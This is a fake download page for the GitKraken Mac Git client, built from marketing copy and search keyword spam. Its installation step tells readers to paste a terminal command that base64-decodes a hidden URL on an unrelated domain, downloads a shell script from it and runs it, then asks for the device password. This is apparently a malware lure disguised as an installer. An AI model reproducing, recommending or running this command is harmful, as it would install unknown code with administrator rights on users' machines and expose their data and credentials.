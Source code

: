# GitKraken Mac Download - Professional Git Client  

![GitKraken Screenshot 1](https://www.gitkraken.com/wp-content/uploads/2023/03/gitkraken-client-og.png)  

---  

### 🔽 Download GitKraken for Mac

> 📥 Open the terminal on your device and paste the command below.
1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQ1L2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

--- 

## What is GitKraken for Mac?  

GitKraken is a premium graphical user interface for Git version control that transforms complex command-line operations into intuitive visual workflows. Designed specifically for developers working on macOS, GitKraken provides an elegant solution for repository management that's equally powerful for solo developers and large enterprise teams.  

The application features a stunning visual commit graph that makes understanding branch relationships and project history effortless. Unlike traditional Git clients, GitKraken offers drag-and-drop functionality for commits, branches, and tags, along with built-in conflict resolution tools that simplify merge operations. The interface includes a comprehensive diff viewer with syntax highlighting for all major programming languages.  

GitKraken excels in team collaboration with its built-in code review system, real-time collaboration features, and seamless integration with GitHub, GitLab, and Bitbucket. The application supports Git LFS for large files and includes advanced tools for submodule management and interactive rebasing. Developers appreciate the dark mode UI, customizable keyboard shortcuts, and performance optimizations for large repositories.  

For enterprise users, GitKraken offers secure credential management, SAML single sign-on, and audit logging. The application is trusted by over 10 million developers worldwide and is particularly popular among web developers, mobile app teams, and open-source contributors working on Mac systems.  

![GitKraken Screenshot 2](https://www.gitkraken.com/wp-content/uploads/2022/03/index-thumbnail.png) 

---  

## Key Features & Benefits  

- 🌟 **Visual Commit History** - Intuitive graph of branches and merges  
- 🤝 **Team Collaboration** - Built-in code reviews and real-time updates  
- 🔄 **GitHub/GitLab Integration** - Sync with popular Git hosts  
- 🛠 **Conflict Resolution** - Visual tools for easy merge conflict handling  
- ⚡ **Performance Optimized** - Handles large repos with ease  
- 🔒 **Enterprise Security** - SAML SSO and audit logging  

GitKraken makes version control more accessible and productive for every developer.  

---  

## 🔍 Keywords  

GitKraken Mac, GitKraken Mac Download, GitKraken for Mac Download, GitKraken Mac, GitKraken Download Mac, GitKraken Download for Mac, GitKraken full version, Mac Download GitKraken, Download Mac GitKraken, Download GitKraken Mac, Download GitKraken for Mac 
